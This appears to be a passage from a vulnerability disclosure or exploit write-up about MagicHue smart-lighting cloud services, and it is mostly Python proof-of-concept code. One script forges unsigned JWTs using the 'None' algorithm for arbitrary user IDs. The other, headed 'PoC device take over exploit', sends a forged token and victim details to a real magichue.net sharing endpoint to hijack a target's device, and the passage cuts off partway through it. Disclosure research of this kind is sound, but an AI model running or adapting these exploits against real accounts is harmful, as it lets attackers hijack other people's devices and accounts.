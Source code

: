 ```
    print ("[+] Encoding ...")
    print ("[+] Bypass header created!")
    print ("HTTP/1.1 200")
    print ("Server: nginx/1.10.3")
    print ("Date: "+str(format_date_time(stamp))+"")
    print ("Content-Type: application/json;charset=UTF-8")
    print ("Connection: close\r\n\r\n")

    jwt_header = '{"typ": "JsonWebToken","alg": "None"}'
    jwt_data = '{"userID": "'+user+'", "uniID": "'+uniqid+'","cdpid": "ZG001","clientID": "","serverCode": "US","expireDate": 1618264850608,"refreshDate": 1613080850608,"loginDate": 1602712850608}'
    jwt_headerEncoded = url64.encode(jwt_header.strip())
    jwt_dataEncoded = url64.encode(jwt_data.strip())
    jwtcombined = (jwt_headerEncoded.strip()+"."+jwt_dataEncoded.strip()+".")
    print ("{\"code\":0,\"msg\":\"\",\"data\":{\"webApi\":\"wifij01us.magichue.net/app\",\"webPathOta\":\"http://wifij01us.magichue.net/app/ota/download\",\"tcpServerController\":\"TCP,8816,ra8816us02.magichue.net\",\"tcpServerBulb\":\"TCP,8815,ra8815us02.magichue.net\",\"tcpServerControllerOld\":\"TCP,8806,mhc8806us.magichue.net\",\"tcpServerBulbOld\":\"TCP,8805,mhb8805us.magichue.net\",\"sslMqttServer\":\"ssl:\/\/192.168.0.112:1883\",\"serverName\":\"Global\",\"serverCode\":\"US\",\"userName\":\""+user+"\",\"userEmail\":\""+user+"\",\"userUniID\":\""+uniqid+"\"},\"token\":\""+jwtcombined+"\"}")

if __name__ == "__main__":
    if len(sys.argv) < 3:
        Usage()
    else:
        Main(sys.argv[1], sys.argv[2])
```

#### Device Take Over

- Exploit to take over device which uses the attacker email (A registered account that will be used to takeover target account), target email (The account to be taken over), target mac address (associated to target email address) and forged token.

##### PoC device take over exploit

```
#!/usr/local/bin/python3

import url64
import requests
import json
import sys
import os
from colorama import init
from colorama import Fore, Back, Style
import re

def Usage():
    print (f"Usage: {sys.argv[0]} <attacker email> <target email> <target mac address> <target forged token>")

def Main():

    attacker_email = sys.argv[1]
    target_email = sys.argv[2]
    target_mac = sys.argv[3]
    forged_token = sys.argv[4]

    os.system('clear')
    print (Fore.WHITE + "[+] Sending Payload ...")
    url = "https://wifij01us.magichue.net/app/shareDevice/ZG001"

```
